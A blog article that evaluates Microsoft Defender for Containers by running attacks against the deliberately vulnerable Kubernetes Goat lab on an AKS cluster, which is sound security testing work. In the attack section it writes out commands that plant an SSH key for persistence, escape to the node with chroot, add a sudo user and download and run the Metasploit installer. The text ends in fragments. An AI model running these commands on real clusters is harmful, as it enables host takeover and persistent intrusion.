

# A goat in the boat: a look at how Defender for Containers protects your clusters

Source: original picture (without the intruder) is from <a href="https://www.cncf.io/phippy/#:~:text=The%20Illustrated%20Children%E2%80%99s%20Guide%20to%20Kubernetes%20The%20Illustrated,try%20to%20explain%20software%20engineering%20to%20their%20children.">Matt Butcher and his illustrated guide of Kubernetes</a>

 

The ubiquitous soar of Kubernetes and containarized or "cloud-native" workloads over the past years has led to an important growth of the security & threat landscape as the number and sophistication of attacks targeting cloud-native environment is booming. While container and Kubernetes security can be hard and requires security practitionners to update their skillsets, a bunch of tools and products have rised in the last years to target these new threat vectors and cope with the elasticity and scalibility of these new workloads. Some of these products include Aquasecurity Trivy, Qualys, Clair, Anchore, Snyk and, the one we will investigate in this post, Microsoft Defender for containers. 

***In this article, we will explore and test Defender for Containers against a vulnerable environment and see what it can detects or prevent as well as a few of the current limitations compared to other solutions on the market.***

Defender for containers is a recent addition to the <a href="https://docs.microsoft.com/en-us/azure/defender-for-cloud/defender-for-cloud-introduction">Microsoft Defender for Cloud</a> portfolio, which is a tool for security posture management and threat protection for multi-cloud and hybrid scenarios. Defender for containers is not really 'new', it is an evolution and merge of two previous plans in the defender portfolio: defender for container registries and defender for Kubernetes.  
This new plan is inline with Microsoft's vision of end-to-end container security: dividing the security of the platform from the security of the container images leads to gaps in a sound container security strategy. 

## Content of this article

1. Environment setup
2. Exploring Defender for Containers
3. Enabling Defender 
4. Images vulnerabilities
5. First look at cluster alerts
6. Going through the goat scenarios and how Defender reacts
7. Using policies to resolve/prevent weaknesses
8. A note on CI/CD integration

## The setup and the goat story

In order to have a valuable testing environment, we need to have a cluster of course, a container registry, container images but most importantly weaknesses, exploit them and see how Defender for containers can help.  
The demo environment we will leverage will therefore be the following:
- One Azure Kubernetes cluster (could be any CNCF-compliant cluster)
- One Azure Container registry 
- Defender for containers enabled for the target resources
- One GitHub kiss (keep-it-simple-stupid) pipeline
- A set of vulnerable workloads

The vulnerable workload, aka the goat in the boat, will be leveraging the awesome work of a cloud-native security specialist, Madhu Akula. <a href="https://github.com/madhuakula/kubernetes-goat">Kubernetes Goat</a> is designed to be an intentionally vulnerable cluster environment to learn and practice Kubernetes security.
We will deploy Kubernetes Goat on our AKS cluster, do some steps of the scenarios (not all of them, see why later on in this article), but also leveraging the vulnerable environment to trigger other malicious acts and see how Defender is helping to detect/mitigate related weaknesses and threats.
 
 
Kubernetes Goat is originally pulling container images used in the various scenarios from Madhu's own Docker repository. For the sake of this exercice, the ability to test the vulnerability scanning features of Defender for containers, and the principle to always deploy from a trusted registry, I modified the coressponding deployment files of Kubernetes Goat to take the same container images but from the container registry we have set up for this lab. *Thanks to Madhu for his work!*

Here is an overview of the setup with deployed namespaces:  

**Note:** In my case, I used _Azure CNI_ for kubernetes network driver and _Azure_ for network policies but it does not matter in this context and is not needed either for our use case.
  
## Defender for Containers  
  
### What does it brings?

The idea of this article is not to explore or market Defender for containers, all details can be found in the official  or this . 
  Rather, we will describe here the main features of the product and what they mean in terms of deployment/usage. 

In summary, defender for containers provides:
- Environment hardening for any <a href="https://www.cncf.io/certification/software-conformance/">CNCF compliant cluster(s)</a> (AKS, EKS, Kubernetes IaaS, Openshift...): visibility into misconfigurations and guidelines to help mitigate identified threats
- Run-time threat protection for nodes and clusters: Threat protection for clusters and Linux nodes generates security alerts for suspicious activities
- Vulnerability scanning: Vulnerability assessment and management tools for images <u>stored</u> in Azure Container Registries (support for third-party registries soon) and <u>running</u> in Kubernetes.

### How does it bring it?

The sources analyzed by Defender are multiple:
- Audit logs and security events from the API server
- Cluster configuration information from the control plane
- Workload configuration from Azure Policy
- Security signals and events from the node level

In terms of deployment, that means:
A Defender profile deployed to each node provides the runtime protections and collects signals from nodes using eBPF technology: it relies on a <a href="https://kubernetes.io/docs/concepts/workloads/controllers/daemonset/">DaemonSet</a> to ensure all nodes in the cluster are covered.
Azure Policy add-on for Kubernetes collects cluster and workload configuration for admission control policies (Gatekeeper): this basically translates Azure Policies to Gatekeeper/OPA policies (see <a href="https://docs.microsoft.com/en-us/azure/governance/policy/concepts/policy-for-kubernetes#:~:text=Azure%20Policy%20extends%20Gatekeeper%20v3%2C%20an%20admission%20controller,state%20of%20your%20Kubernetes%20clusters%20from%20one%20place.">here</a> for details on OPA and Gatekeeper) for audit, enforcement and prevention of policies on the admission controller of your clusters. 
The container registry does not need anything specific, outside of network considerations.

## Step 1: cluster is ready, the goat is in the boat...let's enable Defender and look at the cluster

So after setting up Kubernetes (standard set up, two nodes)(you can refer [here](https://docs.microsoft.com/en-us/azure/aks/kubernetes-walkthrough-portal#:~:text=To%20create%20an%20AKS%20cluster%2C%20complete%20the%20following,create%20an%20Azure%20Resource%20group%2C%20such%20as%20myResourceGroup) for Azure AKS), and deploying the Kubernetes Goat (refer to Madhu's documentation [here](https://madhuakula.com/kubernetes-goat/)), we enabled Defender for Containers with auto-provisionning (see documentation for details), in Defender for Cloud portal:

**Note:** _Arc-enabled cluster_ is for Kubernetes clusters on IaaS in another Cloud or on your premises. 
Details on setup for all type of clusters, including EKS, can be found [here](https://docs.microsoft.com/en-us/azure/defender-for-cloud/defender-for-containers-enable?tabs=aks-deploy-portal%2Ck8s-deploy-asc%2Ck8s-verify-asc%2Ck8s-remove-arc%2Caks-removeprofile-api&pivots=defender-for-container-aks).

let's have a first look at our Kubernetes cluster and the impact of enabling Defender: we can clearly see the Defender Profile related-pods (deployed through the Daemonset) (in red) and the Gatekeeper pods (in green), next to the Kubernetes Goat (in gold) related namespaces and pods:

We can also notice that Defender pods are indeed coming from a deployed Daemonset:

## Step 2: are there some image vulnerabilities?

Earlier in this article, we uploaded the various container images required for Kubernetes Goat into our Azure Container Registry. Here is what it looks like in terms of repositories:

Since we enabled Defender, and one of the features is vulnerability scanning of container images pushed, pulled and recently pulled in your registry, let's have a look at the results. For this, we simply go in Defender for Cloud portal, *Workload Protection*: we can there at the same time see our Kubernetes cluster inside that subscription are covered.

If we click on _Container Image Scanning_ we can see that Defender indeed scanned our images (using Qualys behind the scenes) and is already giving us a list of CVEs to tackle: 

These CVEs means that the Goat container images need some updates, to avoid introducing (yet more) vulnerabillties in our environment. You can click on a registry to see all details about affected images and tags:

**Note**: the detected vulnerabilities are CVEs, or software vulnerabilities in libraries or OS version used in these containers. As of today, defender for containers does not scan for CIS, secrets in container images or similar best-practices. You can however use other tools such as Trivy in order to bring that capability to your pipeline.

### Can I trigger an on-demand scan?

No. As of today, the scans are happening on push, on pull, and recurrently on recently pulled images from your registry (weekly basis). 
You can expect this to evolve with the solution roadmap.
There is however ability to leverage Defender for Containers in your CI/CD pipeline, using Trivy: https://docs.microsoft.com/en-us/azure/defender-for-cloud/defender-for-container-registries-cicd.

## What about runtime scanning?

We deployed already the containers listed as vulnerable in the registry to our AKS cluster, did defender spot that? Yes! If we go back to our Defender portal, and go through recommendations, there is one specific to runtime container vulnerabilities (in red), next to the container registry ones (in yellow):

When we open this recommendation, we can see the same CVEs as in the container registry scans:

**Note:** It would be good to be able to prevent vulnerable containers to be deployed. Thanks to gatekeeper and defender for containers, we will be able to do so! This is in fact one of the recommendation also made by Defender for Containers about our cluster:

Check this link for more details: https://docs.microsoft.com/en-us/azure/aks/policy-reference#policy-definitions.

## Ok, but we deployed a goat, did Defender detect something else?

So, we deployed Kubernetes Goat on the cluster as you saw from the various pods listed here above in the printscreen. 
However, Goat is meant to be intentionnally vulnerable!  
Even if we did not start the scenarios or triggered anything malicious yet, did Defender already catch some issues with this deployment?
Let's jump to security alerts in the same Defender for Cloud portal and filter on our cluster:

We notice 4 alerts, after the setup:
- Three privileged containers running
- One container with sensitive mount

If we check details of one of these alerts, we can see interesting information, including related [MITRE tactics](https://www.microsoft.com/security/blog/2021/04/29/center-for-threat-informed-defense-teams-up-with-microsoft-partners-to-build-the-attck-for-containers-matrix/), detailed description, pod name...

However we would like to potentially trigger actions based on this alert or have information about how to mitigate the threat! This is all in the 'take action' tab:

1. We can see some detailed advise to mitigate the threats
2. We have a list of ***actionable*** recommendations to prevent this threat in the future

**What are these mitigations exactly?** 
Like for preventing vulnerable image in the cluster discussed here above, they are leveraging Gatekeeper, the admission controller, and Azure Policy, to enforce controls and best-practices on your clusters! Azure Policy extends Gatekeeper v3, the admission controller webhook for Open Policy Agent (OPA), to apply at-scale enforcements and safeguards on your clusters in a centralized, consistent manner. Azure provides built-in policies such as the ones proposed in the alert remediation, or yet Kubernetes CIS hardening policies but you can also come up with custom policies.  
You are able to audit, prevent or remediate issues in your cluster in an automated way. We will not do this here, as this would break our vulnerable goat of course, but let's keep this in mind for the end of this article. 

All details about Gatekeeper and Azure Policy can be found [here](https://docs.microsoft.com/en-us/azure/governance/policy/concepts/policy-for-kubernetes#:~:text=Azure%20Policy%20extends%20Gatekeeper%20v3%2C%20an%20admission%20controller,state%20of%20your%20Kubernetes%20clusters%20from%20one%20place.).

### But did Defender detected all potential issues and weaknesses?

Only four alerts? Uh. But I thought the goat was damn vulnerable! Good catch! But it is not only about alerts, also about recommendations! In the above list of recommendations, in alert details, let's click on 'view all recommendations'...surprise! There is way more problems in our safe Kubernetes environment than we thought! 

We see clearly here recommendations for many best-practices in a Kubernetes environment. Most of these recommendations can even be enforced (denied) in one click, through usage behind the scenes of Azure Policy (potentially translated to OPA/Gatekeeper policies):

We can also see of course a few recommendations are 'met' and compliant with *Healthy* state.

You do not have to go or have to wait for an alert to see these best-practice issues.
They are listed as recommendations, amongst others in your Defender for Cloud Security Posture Management tab, like for the container runtime CVEs we checked before:

The full list of detection capabilities (up-to-date) of Defender can be found here: https://docs.microsoft.com/en-us/azure/defender-for-cloud/alerts-reference#alerts-k8scluster
The list of recommendations can be found here: https://docs.microsoft.com/en-us/azure/defender-for-cloud/recommendations-reference

## Testing attack patterns

Now, let's play and see how Defender reacts. A introduced, we will not test all Kubernetes Goat scenarios for various reasons:
1. Some Kubernetes Goat scenarios relies on Docker as container engine, while AKS relies on containerd (which avoids mandatory root privileges for containers, behind other benefits)
2. Some scenarios are 'inner-network' specific: cross-namespace requests for instance should be tackled with Network Policies such as Calico or Azure CNI. It is not the idea to cover this here, and Defender for Cloud has no way to know what is an authorized applicative flow inside the cluster or not. 
3. Some scenario are related to NodePort, however AKS managed clusters are usually exposed by LoadBalancer service rather than NodePort. MDC detects exposure of various sensitive applications using LoadBalancer services.
4. One scenario has for purpose to investigate the inner layers of a container to find crypto mining commands but the job itself is not doing any crypto mining. So while Defender can detect crypto mining activities, it would not be relevant in this context. 
5. Some scenarios would not be spotted: example of the secrets in container images discussed in previous section.

Details about all the scenarios of the Kubernetes Goat can be found [here](https://madhuakula.com/kubernetes-goat/about.html#:~:text=Kubernetes%20Goat%20is%20designed%20to%20be%20an%20intentionally,production%20environment%20or%20alongside%20any%20sensitive%20cluster%20resources.).

We will not expand too much on the details here, for the sake of your not falling asleep, but also because Madhu desceibes already everything you should know in his documentation, and in some good videos such as Defcon talks. The idea is not to spoil solutions but try to capture the flag by yourself if you want to leverage his work!

Here are the scenarios we will test using Kubernetes Goat setup and see how Defender reacts to that:
- Abusing pod and senstive volume mount: Leveraging scenario 2 of Kubernetes Goat, Docker in Docker, to trigger code execution on the pod
- Abusing pod and complete host volume mount: Leveraging scenario 4 of Kubernetes Goat, escaping to the host, to triger code execution on the pod and the node
- Targeting Kube API: Leveraging scenario 16. and try to play with Kubernetes API and abusing known Kubernetes service accounts threat vectors

### Abusing pod and senstive volume mount

**Pod used:** Health Check
**Pod properties:**
- Privileged Context 
- Sensitive Mount: In the original version from Kubernetes Goat's author, *health_check* deployment has host docker socket mounted in the pod. This was a recurring threat vector in the Docker world (see, https://cheatsheetseries.owasp.org/cheatsheets/Docker_Security_Cheat_Sheet.html). As discussed, AKS does not leverage Docker daemon anymore, but rather containerd. We therefore replaced the docker.socket mount in this pod, by mounting /var from the host and re-deployed the pod:

This raised an alert in Defender, about sensitive volume mounts as previous seen for the other pods:

From there, if we navigate to the pod, it is exposing a *health check* service which allows for remote code execution on the pod. Indeed, we can simply execute any command by appending them to the target host to be scanned field: 

From there we tested the following commands:

- Downloading a malicious file and executing it:

We also copied eicar file on the host itself, in /var/tmp, using the mounted host volume in /custom/var:

- Deleting backup files in host's /var folder

- Deleting bash_history to cover our traces

**Results:** the following alerts were raised in Defender for Cloud:

### Abusing pod and complete host volume mount

**Pod used:** System Monitor
**Pod properties:**
- Privileged Context 
- Sensitive Mount: the full host system / voulme is mounted in the pod, in /host-system

From there we tested the following:

- Enabled the SSH server on the host to allow for instance for remote access (persistency) and added a newly generated attacker controlled SSH key to authorized keys on the host. I simply used ssh-keygen to generate a new sample key pair for SSH on my machine:

`/usr/bin/sshd start~`
`echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQCmljeUnkk3eBlavzDmw3Dm5gQJrjCs//3CxJ+4mjbRbja4Hu1o46smTsHJkgXVfwyelUbTTCjRny5LcP9A
4AzQfdLTkhnHrfFNpSja7ouOzL4cyPrgtA0qvJWYPwRvXYAiO9tJ1G6XEYz3Y+i2WbVP+c/OIUUqojldlJaEeFgVu8+TArHUtAx6HOXkpeFE/+6dBEpb/ezG
sGO4Afp9FZxCChVoLLWEa6Bdbdjsq0PxKbp3/+kf9OyJCB2kHRiEyJBDGmXrsgo/cJ5mdgfM0EN2OwKJm9MKH+73LpX2HXH+76Vr5OjiedlKxTfQq37rBpyG
pyE6tQqV1DRLPz7cCi3ALc74FVghQRBVCL/Jv0MXBoBbC3H+Ik148ZyKzGzrBMJkICnaftpQw8fwHkGhzH+zkRK5fwZBS3kEL1lM8hvJ7Q0VxasqOLgpdYAa
sWE4Y1lCLqTdRjtYsuRshcdJj8soa9tKWwwDbiEPANLvuilsyRrwp0YpWwv2XhpjnpWl+gU= " >> ~/.ssh/authorized_keys`

- Escape to the node using chroot (basically changing our root directory to the host's and launching bash from there):

`chroot /host-system bash` 

- Added a new user to the sudoers group:

`useradd -g sudo Tux`

- Downloading, installing and running MetaSploit (a known attacker framework with collection of exploits):

`curl https://raw.githubusercontent.com/rapid7/metasploit-omnibus/master/config/templates/metasploit-framework-wrappers/msfupdate.erb > msfinstall && \
  chmod 755 msfinstall && \
  ./msfinstall`
  
 `/opt`

3. Starting the SSH server in the pod and adding a key to keep remote control

2. 

